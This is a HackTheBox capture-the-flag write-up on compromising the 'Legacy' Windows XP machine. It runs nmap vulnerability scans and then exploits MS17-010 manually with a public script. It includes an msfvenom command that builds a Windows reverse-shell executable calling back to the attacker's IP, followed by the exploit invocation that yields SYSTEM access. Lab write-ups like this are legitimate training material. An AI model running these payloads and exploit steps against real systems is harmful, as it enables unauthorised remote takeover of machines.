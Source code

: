 ```yaml
---
title: Legacy Writeup- HackTheBox
author: Murali Vallimanalan
date: 2020-07-09 00:30:00 +0530
excerpt: A windows host from HackTheBox, owned by exploiting SMB vulnerability, without metasploit.
categories: [HackTheBox, Writeup]
tags: [htb, hackthebox, samba, without metasploit, MS17-010, windows]
---
```


![Info Card](/assets/img/posts/legacy/info.png)

## Methodology
1. Port Enumeration
2. Samba version enumeration
3. Manual exploit
4. SYSTEM access to target

## Port Enumeration
The nmap port scan had identified 2 open ports- netbios-ssn (139) and microsoft-ds (445), running SMB services.
The vulnerability script scan had identified the vulnerabilities **MS08-067** and **MS17-010** from the Microsoft 
Security Bulletin.  
``` 
[pwnd_root@manjaro Legacy]$ targetRecon 10.10.10.4
[+] Open Ports Scan
        139     netbios-ssn
        445     microsoft-ds
[+] Scripts Scan
                 nmap -sV -sC --script=vuln -p 139 10.10.10.4

Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:52 IST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4 (10.10.10.4)
Host is up (0.36s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1                                                                                                 
|        servers (ms17-010).                                                                                                                                                     
|                                                                                                                                                                                
|     Disclosure date: 2017-03-14                                                                                                                                                
|     References:                                                                                                                                                                
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx                                                                                                       
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/                                                                            
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143                                                                                                             

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                   
Nmap done: 1 IP address (1 host up) scanned in 54.69 seconds                                                                                                                     

                 nmap -sV -sC --script=vuln -p 445 10.10.10.4

Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:53 IST                                                                                                                  
Pre-scan script results:                                                                                                                                                         
| broadcast-avahi-dos:                                                                                                                                                           
|   Discovered hosts:                                                                                                                                                            
|     224.0.0.251                                                                                                                                                                
|   After NULL UDP avahi packet DoS (CVE-2011-1002).                                                                                                                             
|_  Hosts are all up (not vulnerable).                                                                                                                                           
Nmap scan report for 10.10.10.4 (10.10.10.4)                                                                                                                                     
Host is up (0.34s latency).                                                                                                                                                      

PORT    STATE SERVICE      VERSION                                                                                                                                               
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds                                                                                                                     
|_clamav-exec: ERROR: Script execution failed (use -d to debug)                                                                                                                  
Service Info: OS: Windows XP; CPE: cpe:/o:microsoft:windows_xp                                                                                                                   

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.58 seconds

[+] Summary 
139     netbios-ssn     Microsoft Windows netbios-ssn N/A
Vulnerabilities
['smb-vuln-ms08-067', 'smb-vuln-ms17-010']

445     microsoft-ds    Microsoft Windows XP microsoft-ds N/A
Vulnerabilities
['smb-vuln-ms08-067', 'smb-vuln-ms17-010']
```
## Manual Exploit
The exploits from exploit-db for **MS17-010** did not work as expected. With the intention of avoiding metasploit module, 
after googling for a while a working
 manual exploit named [send_and_execute.py](https://github.com/helviojunior/MS17-010) was found. 
 > Note: The exploit requires **Impacket** and **mysmb.py** in order to work.

## SYSTEM access
As per the source code, the exploit takes two mandatory arguments, *target IP* and the *executable* that gets executed on the
target as *SYSTEM* user. A windows reverse shell as an executable was generated with *msfvenom* as follows.
``` 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=9090 EXITFUNC=thread -f exe -a x86 --platform windows -o legacy.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: legacy.exe
```
Post generating the reverse shell, a netcat listener on port 9090 was started on the attacking machine. The exploit was 
executed as ```python2.7 send_and_execute.py 10.10.10.4 legacy.exe```
After successful execution of the exploit, a reverse shell was captured on the netcat listener.

![User Shell](/assets/img/posts/legacy/user.png)

![SYSTEM Shell](/assets/img/posts/legacy/system.png)

> Being an old Windows XP OS, the target did not have *whoami* binary installed. One method of finding out the current 
user is to upload a *32-bit whoami executable* to the target and use it. However the easiest way to check if we have
*Administrator* access, is by checking if **root.txt** from *C:\Documents and Settings\Administrator\Desktop* is readable.